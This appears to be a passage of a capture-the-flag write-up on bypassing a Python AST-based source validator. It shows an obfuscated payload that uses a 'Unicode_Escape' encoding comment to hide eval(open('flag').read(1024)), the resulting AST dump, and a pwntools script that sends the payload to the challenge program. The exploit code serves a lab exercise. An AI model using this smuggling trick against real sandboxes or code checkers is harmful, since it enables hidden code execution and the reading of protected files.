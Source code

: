 We tried an old exploit:
```python
# Encoding: Unicode_Escape\r\145\166\141\154\050\157\160\145\156 \050\042\146\154\141\147\042\051\056 \162\145\141\144\050\061\060\062\064 \051\051

def foo():
    pass

__EOF__
```

~~and as it happens, somehow AST Parser not always properly reads it, because it failed the validation~~ - the debug said, we had two elements in the AST body:

```
AST Dump: ("Module(body=[Expr(value=Call(func=Name(id='eval', ctx=Load()), "
 "args=[Call(func=Attribute(value=Call(func=Name(id='open', ctx=Load()), "
 "args=[Constant(value='flag')], keywords=[]), attr='read', ctx=Load()), "
 'args=[Constant(value=1024)], keywords=[])], keywords=[])), '
 "FunctionDef(name='foo', args=arguments(posonlyargs=[], args=[], "
 'kwonlyargs=[], kw_defaults=[], defaults=[]), body=[Pass()], '
 'decorator_list=[])], type_ignores=[])')
Body size: 2
Invalid source
```

And the above result is because of the mistake in our script, as we were using pwntools like that:
```python
from pwn import *

exp = b"""
# Encoding: Unicode_Escape\n\145\166\141\154\050\157\160\145\156 \050\042\146\154\141\147\042\051\056 \162\145\141\144\050\061\060\062\064 \051\051
def foo():
    pass

__EOF__
"""

try:
    io = process(['app.py'])
    io.recvuntil(b'with __EOF__):')
    io.sendline(exp)
...
```

When we had to use rawstring, so rather something like:
```python
exp = r"""
# Encoding: Unicode_Escape\n\145\166\141\154\050\157\160\145\156 \050\042\146\154\141\147\042\051\056 \162\145\141\144\050\061\060\062\064 \051\051
def foo():
    pass

__EOF__
"""
```
